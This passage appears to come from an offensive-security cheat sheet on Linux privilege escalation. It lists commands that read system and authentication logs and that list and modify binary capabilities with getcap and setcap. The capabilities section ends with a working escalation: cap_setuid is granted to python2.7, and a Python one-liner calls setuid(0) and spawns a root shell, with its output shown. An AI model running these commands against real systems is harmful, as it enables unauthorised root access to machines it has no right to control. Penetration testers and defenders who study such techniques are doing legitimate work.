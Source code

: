 #### `cat /var/log/apache/access.log`&#x20;

#### `cat /var/log/auth.log`&#x20;

#### `cat /var/log/chttp.log`

## <mark style="color:red;">Capabilities</mark>

### <mark style="color:orange;"><mark style="color:red;">List capabilities of binaries<mark style="color:red;"></mark>

#### `/usr/bin/getcap -r /usr/bin`

#### <mark style="color:green;">Edit capabilities</mark>

#### `/usr/bin/setcap -r /bin/ping # remove`&#x20;

#### `/usr/bin/setcap cap_net_raw+p /bin/ping # add`

#### Interesting capabilities Having the capability =ep means the binary has all the capabilities.

#### `$ getcap openssl /usr/bin/openssl` `openssl=ep`

#### Alternatively the following capabilities can be used in order to upgrade your current privileges.

#### `cap_dac_read_search # read anything` `cap_setuid+ep # setuid`

#### Example of privilege escalation with cap\_setuid+ep

#### `sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7`&#x20;

#### `python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'` `sh-5.0# id` `uid=0(root) gid=1000(swissky)` `>`

![](../../.gitbook/assets/capabilities1.png)
